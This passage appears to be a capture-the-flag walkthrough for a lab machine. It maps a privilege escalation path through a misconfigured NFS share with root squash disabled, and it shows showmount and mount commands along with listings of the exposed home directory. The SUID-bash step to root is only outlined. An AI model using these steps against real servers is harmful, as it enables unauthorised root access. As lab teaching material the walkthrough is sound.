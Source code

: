 Due to compatibility reasons, we'll use a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. [You can download it here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash).

### Mapped Out Pathway

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:

```
NFS Access ->
    Gain Low Privilege Shell ->
        Upload Bash Executable to the NFS share ->
            Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
                Login through SSH ->
                    Execute SUID Bit Bash Executable ->
                        ROOT ACCESS
```

Lets do this!

## Show shares available of remote NFS server

```commandline
showmount -e 10.10.139.106
```

Which will return the available shares:

```
Export list for 10.10.139.106:
/home *
```

It is interesting to see that there's a share. So we should take a closer look to that to see what we can get of information of this.

## Mounting a nfs share

```commandline
mkdir /tmp/mount
mount -t nfs 10.10.139.106:/home /tmp/mount/ -nolock
```

So let's take a look what we can see into these share.

```commandline
# ls -lah /tmp/mount/
total 12K
drwxr-xr-x  3 root           root           4.0K Apr 22  2020 .
drwxrwxrwt 14 root           root           4.0K Aug  1 15:39 ..
drwxr-xr-x  5 dvanmosselbeen dvanmosselbeen 4.0K Jun  4  2020 cappucino
```

After looking around I found something very interesting

```commandline
┌──(root💀vm-dsktp-kali)-[/home/itchy]
└─# cd /tmp/mount/cappucino

┌──(root💀vm-dsktp-kali)-[/tmp/mount/cappucino]
└─# ls -lah
total 36K
drwxr-xr-x 5 dvanmosselbeen dvanmosselbeen 4.0K Jun  4  2020 .
drwxr-xr-x 3 root           root           4.0K Apr 22  2020 ..
-rw------- 1 dvanmosselbeen dvanmosselbeen    5 Jun  4  2020 .bash_history
-rw-r--r-- 1 dvanmosselbeen dvanmosselbeen  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 dvanmosselbeen dvanmosselbeen 3.7K Apr  4  2018 .bashrc
drwx------ 2 dvanmosselbeen dvanmosselbeen 4.0K Apr 22  2020 .cache
drwx------ 3 dvanmosselbeen dvanmosselbeen 4.0K Apr 22  2020 .gnupg
```